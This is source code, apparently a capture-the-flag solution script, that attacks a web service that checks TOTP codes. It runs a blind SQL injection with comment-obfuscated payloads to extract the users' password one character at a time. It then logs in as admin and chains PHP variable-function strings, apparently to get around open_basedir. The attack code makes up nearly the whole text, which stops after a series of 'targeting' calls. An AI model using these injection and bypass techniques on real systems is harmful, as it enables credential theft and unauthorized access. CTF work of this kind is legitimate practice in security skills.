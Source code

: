 ```python
    for i in range(1, length + 1):
        left = 0x20
        right = 0x7e
        while True:
            mid = int((right - left) / 2 + left)
            if mid == left:
                real_password += chr(mid)
                break
            username = "'/**/or/**/if(ascii(substr((select/**/password/**/from/**/users/**/limit/**/1),%d,1))>=%d,1,0)#" % (
            i, mid)
            password = "b"
            payload = 'login %s %s' % (username, password)
            payload = urllib.quote(payload)
            payload = url % (payload, totp.now())
            res = s.get(payload).text
            if 'incorrect' in res:
                left = mid
            else:
                right = mid
        print(real_password)
        if len(real_password) < i:
            print('No.%d char not in range' % i)
            break


def login(password):
    username = 'admin'
    payload = 'login %s %s' % (username, password)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)


def destruct():
    payload = 'destruct'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)


def targeting(code, position):
    payload = 'targeting %s %s' % (code, position)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)


def launch():
    payload = 'launch'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    return s.get(payload).text


login('hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}')
destruct()
targeting('a', 'chr')
targeting('b', '{$a(46)}')
targeting('c', '{$b}{$b}')
targeting('d', '{$a(47)}')
targeting('e', 'js')
targeting('f', 'open_basedir')
```